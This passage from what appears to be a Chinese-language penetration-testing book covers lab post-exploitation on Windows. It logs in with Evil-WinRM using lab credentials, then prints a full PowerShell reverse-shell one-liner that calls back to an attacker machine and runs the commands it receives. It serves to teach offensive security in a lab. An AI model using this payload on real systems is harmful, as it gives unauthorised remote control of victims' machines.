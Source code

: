 我们将从`Evil-WinRM`开始，使用以下凭据查看是否能够获得一个 shell：`operator2:Password2`。运行以下命令：

evil-winrm -I 172.16.0.4 -u operator2 -p Password2

如果本章第一部分的配置都正确，你将看到以下结果：

![图 10.63 – Evil-WinRM shell](img/Figure_10.63_B16321.jpg)

图 10.63 – Evil-WinRM shell

*瞧*! 我们得到了第一个 shell，现在是时候探索我们新 shell 的功能了。输入`menu`命令并按下*Enter*。这将弹出一份后渗透模块列表：

![图 10.64 – Evil-WinRM shell 菜单](img/Figure_10.64_B16321.jpg)

图 10.64 – Evil-WinRM shell 菜单

故事时间

我记得曾与 Rob Mubix Fuller 进行过一次对话。他传授给我一条智慧箴言，这条箴言曾被传递给他：*两个是一个，一个是零*，意思是如果你只有一个 shell，那么实际上你根本就没有 shell。你需要一个备份计划，以防你的主会话丢失或被切断。这句话一直深深印在我脑海中，我也会将这一见解传递给你。所以记住，如果你成功获取了一个 shell，务必尽快构建第二个 shell。

话虽如此，我们需要构建另一个 shell。一个很好的资源是`Payloads All The Things`。可以通过以下链接访问：[`github.com/swisskyrepo/PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings)。

我们将使用反向 Shell 备忘单来找到一个 PowerShell 方法。以下代码展示了我们将用于连接回 Kali Linux 虚拟机的 PowerShell 命令：

client = New-Object System.Net.Sockets.TCPClient("172.16.0.6",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
